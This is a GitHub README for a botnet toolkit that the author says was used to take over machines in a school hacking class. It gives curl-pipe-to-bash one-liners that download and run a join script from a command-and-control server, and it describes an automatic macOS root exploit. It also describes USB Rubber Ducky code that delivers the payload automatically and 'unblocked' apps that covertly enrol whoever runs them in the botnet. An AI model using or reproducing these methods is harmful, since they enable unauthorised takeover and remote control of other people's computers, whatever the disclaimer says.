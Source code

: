 # net
Some helpful scripts for building and managing small botnets.

## Why I wrote this
I used this code at the Virginia Residential Governor's School for Math, Science, and Technology to take over 36 Raspberry Pi microcomputers and Kali Linux desktops in the hacking class in which I partook. Such behavior was encouraged, and I did not violate any rules.

Please note that I strictly use this code for pranks and for educational purposes. I do not run a DDoSsing botnet or other such illegal operation and do not condone the use of this code for any malicious purpose.

## Compatible Operating Systems
* macOS/OS X - on 10.11 (El Capitan), exploit will be used to gain a root shell and payload will be automatically delivered. For other versions, root must be obtained manually.
* Debian-based GNU/Linux - Tested on Kali Linux and Raspbian, should work on other distros. Root exploit isn't automatic on any Linux, so you'll need to already have root access.

## How it works
### Command & Control
C&C is managed on ports `2042` & `2043` of a server. A simple Python script opens a socket on port `2043` which listens for incoming data from nodes, such as new nodes' joining signals, updates on connection state, and other data. All requests to the server are printed to the terminal, and important ones are written into `nodes.txt`.

To make control scripts available, run
```sh
python3 -m http.server 2042
```
from the `control` directory. This will use Python's inbuilt simple HTTP server to serve control scripts to nodes upon request.

### Joining
On macOS, two scripts are used to join a computer to the network, `join.sh` and `enact.sh`. `join.sh` allows one-command joining: it will download and decrypt an exploit needed to elevate to a root shell and then run `enact.sh` in that root shell automatically. That script will handle joining the botnet.

For GNU/Linux, there's just one script, `join.sh`, which must be executed as root or as a user with root privileges.

Here are simple one-liners to join the botnet (I recommend purchasing a simple domain for easy C&C):

Mac:
```sh
curl -L [domain]:2042/mac/join.sh |bash
```
Linux:
```sh
curl -L [domain]:2042/linux/join.sh |bash
```

### Rubber Duck code
In the `duck` directory, you'll find Arduino code for delivering the join scripts automatically to macOS and Linux computers.

This code is intended for use with a Digispark ATTINY85 drive, though it can be easily modified to work with other Rubber Duck USBs.

To upload this code to your drive, follow [this tutorial](https://www.youtube.com/watch?v=fGmGBa-4cYQ).

### Tools
Running `tools/run.sh` followed by a string giving the command you'd like to run will cause all nodes in `nodes.txt` (in your working directory) to run that command through SSH. This is less useful now that cron control exists. You can also run `up.sh` to view which/how many nodes on the current network are online.

### Apps
The `apps` directory contains some "unblocked" versions of various applications. These versions will work on secured MacBooks, but they will also join the computer that runs them to the botnet.

## Licensing
This software was created by [Erik Boesen](https://github.com/ErikBoesen) and is available under the [MIT License](LICENSE).
